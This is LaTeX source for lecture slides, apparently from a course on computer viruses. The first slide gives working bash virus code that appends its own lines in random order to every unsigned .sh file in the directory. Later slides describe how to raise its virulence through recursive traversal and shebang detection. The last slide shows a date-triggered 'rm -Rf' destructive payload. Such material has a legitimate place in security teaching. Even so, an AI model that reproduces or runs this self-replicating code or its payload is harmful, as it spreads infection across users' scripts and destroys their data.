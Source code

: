 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Infection Code with Random Line Selection}
  \begin{block}{}
\begin{scriptsize}
\begin{verbatim}
LI=16
for i in *.sh	 #@1#  # "ixYT6DFArwz" is the signature
do   #@2#
    if  [  -z "$(grep ixYT6DFArwz $i)" ] #@3#  # search for signature
    then # infection  #@4#
        #@5#
        #@6#
        nb=1; echo $i;  #@7#
        r=$(( ($RANDOM % ($LI+1)) + 1))  #@8#
        while [ $nb -le $LI ] #@9#
        do    #restoration loop for code #@10#
            r=$((($r*3) % ($LI+1))) #@11# random line choice
            cat $0 | grep "#@$r#"  >> $i #@12# add the line
            nb=$(($nb+1)); echo $r #@13#
        done  #@14#
    fi #@15#
done   #@16#
\end{verbatim}
\end{scriptsize}
\end{block}
\end{frame}



\subsection{Other Possible Improvements}

\begin{frame}
\frametitle{Increasing Virulence}

\begin{itemize}
\item The action is limited because it is restricted to the current directory.
\item Virus infection raises the problem of distinguishing scripts from compiled files.
\item Virulence can be increased by testing for the presence of the string \texttt{\#!/bin/bash} at the beginning of the file.
\item Virulence can also be increased by performing a recursive traversal of the file tree.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Placing a Payload}


\begin{itemize}
\item We can choose to execute it only if the infection is successful.
\item Or if a sufficient number of files have been infected.
\item Its execution can be linked to a condition, for example
\begin{semiverbatim}
if test "\$(date +\%b\%d)" == "Jan21"; then
 rm -Rf
fi
\end{semiverbatim}
\end{itemize}
\end{frame}
\end{document}
